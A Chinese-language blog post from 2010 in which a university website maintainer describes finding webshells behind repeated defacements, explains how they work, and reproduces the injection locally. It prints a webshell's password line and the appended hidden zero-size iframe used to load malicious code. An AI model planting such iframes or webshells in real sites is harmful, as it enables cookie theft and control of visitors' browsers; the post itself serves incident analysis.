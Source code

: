 title: "窥视网站木马安装过程——webshell"
id: 73
date: 2010-04-25 08:40:48
tags: 
- 网络安全
categories: 
- 电脑网络
---

这几天总是发现教科院新网站总是被挂马，第一次听到有人说网站被360浏览器报告有木马，很烦躁，这怎么可能呢……然后想，这个360浏览器也太差了吧， 怎么能够随便报告木马。然后没多久又报告大一信息员在添加文章时候发现居然打开不开文章添加页面了。我一看果然中木马了，于是马上把所有文档下载下来，清 除木马，然后又修补了网站的几个漏洞，查了下sql日志文件，也没有发现什么蛛丝马迹，一点头绪都没有，怎么会这样被修改网页啊。也没有发现可疑文件呀。 就这样一直忙到下午三点半还没有吃饭。

又过了几天，居然又全部中毒……而且情况基本和上次完全一样，所有目录下的index.php | html | htm文件全部被追加了一段xss代码，还有一个config文件被改，于是又修复了几个漏洞，但是还是不知道这到底怎么回事，新 网站本身的安全性能很高啊，怎么会这样被修改。然后仔细查看了所有文件，还是没有问题。

这个周末，又发现木马了！实在痛苦，不知是哪里的黑客这么烦人、卑鄙。绝对鄙视这种家伙。又是一次长时间的查看修复。一切恢复以后了，还是和前两次一样。忽然我想也许在老网站的更目录下有 webshell也说不定，新网就放在老网站中的一个文件夹中，如果老网站上有webshell，那新网站无论如何安全也同样只有被宰割的命运了。果然不到一分钟就发现一个怪异的文件z.asp，一看第一行是：

```
UserPass=&quot;1&quot;     '密码串
```

这种文件通常就是 webshell了。在此介绍一下什么是webshell吧：webshell对于一个攻击者而言是一个完全占领一个服务器的脚本，webshell和网 站本身所运行的语言是一致的，比如教科院的网站可以运行php文件，也可以运行asp文件，那么这个z.asp就是一个恶意的文件，webshell的一 个特性是可以通过它来查看服务器上的所有文件并且可以随意的操作（包括下载修改删除），这个webshell本身和网站运行权限是一致的。

传 webshell到服务器上通常有几个途径，直接上传和通过网站漏洞（比如sql注入漏洞，利用网站程序本身写入webshell）。接下来当然是直接删 除webshell啦，还发现一个规律，webshell通常比较大，而一般的一个正常的脚本文件会在30kb以下，所以那些大的可运行文件通常非常可 疑。

然后，居然在网站上发现了4个webshell，三个asp，一个php的。下面让大家看看webshell怎么工作的吧：
首先是运行，这个webshell在根目录下，在根目录上我们更容易发现而已，希望在其他目录上不要有才好啊，有机会得写一个webshell检测的工具才 行。对于z.asp这个shell运行很简单，直接输入http://edu.nenu.edu.cn/z.asp就可以啦，当然这个页已经被我删除 了，下面是一个很酷的登陆界面

密码 就在上面了，UserPass="1" ，输入1就可以就去了

![](http://eblog.nenu.edu.cn/UploadFiles/2010-4/425953304.jpg)

这就是主页面了，和本地的文件浏览没有什么差别，而且使用也没有什么技术难度，在这里很容易看到了传媒学院 的网站（和教课的网站放在一个目录下，所有的目录都用椭圆盖住了），然后看了下传媒的网站，确实也被注入了脚本，在文件夹旁边就有几个选项 （copy,del,move,Down)，多危险啊，这里还发现了学校主页的备份，webshell下的网站是如此脆弱啊。下面是这个挂木马的工具：

![](http://eblog.nenu.edu.cn/UploadFiles/2010-4/425608279.jpg)

呵呵，原来木马就是这样插入的啊，还发现这个有扫描木马的功能呢，也许有用。最后在本地机 上实验了一下，果然非常成功地在本身挂上了木马，而且和网站上情况一模一样——所有文件后面追加木马：

```
<iframe src="http://127.0.0.1/m.htm" width=0  height=0></iframe>
```

这个文件用户在浏览器上是看不到的，高度宽度都等于0，却暗中加载了一些任意的恶意代码。比如获取正在浏览的用户cookie，甚至是控制浏览此网页的用户
